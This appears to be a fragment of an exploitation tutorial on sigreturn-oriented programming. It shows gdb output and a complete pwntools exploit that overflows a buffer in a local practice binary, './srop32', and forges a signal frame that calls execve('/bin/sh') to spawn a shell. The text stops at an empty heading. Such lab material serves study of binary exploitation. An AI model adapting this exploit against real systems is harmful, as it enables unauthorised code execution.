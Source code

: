 ```
Found 1 results, display max 1 items:
libc : 0xf7f5b02b ("/bin/sh")
gdb-peda$ p 0xf7f5b02b-0xf7e02000
$6 = 0x15902b
```

## **Exploit Code**

```python
# Exploit Code
from pwn import *

#context.log_level='debug'  
binary = ELF('./srop32')
p = process(binary.path)
#gdb.attach(p)

p.recvline()
stackAddr = p.recvline().split(' ')[3]
stackAddr = int(stackAddr,16)

#You need to change the value to match the environment you are testing.
libcBase = stackAddr - 0x49020
ksigreturn = libcBase + 0x1d6001
syscall = libcBase + 0x1d6006
binsh = libcBase + 0x15902b

print 'The base address of Libc    : ' + hex(libcBase)
print 'Address of syscall gadget   : ' + hex(syscall)
print 'Address of string "/bin/sh" : ' + hex(binsh)
print 'Address of sigreturn()      : ' + hex(ksigreturn)

exploit = ''
exploit += "x90" * 66
exploit += p32(ksigreturn)  #ret

#Runed a 32bit program in the 64bit operation system.
frame = SigreturnFrame(kernel='amd64')
frame.eax = 0x0b  # execve
frame.ebx = binsh 
frame.esp = syscall
frame.eip = syscall
exploit += str(frame)

#raw_input('1')
p.send(exploit)
p.interactive()  
```
## **Exploit**

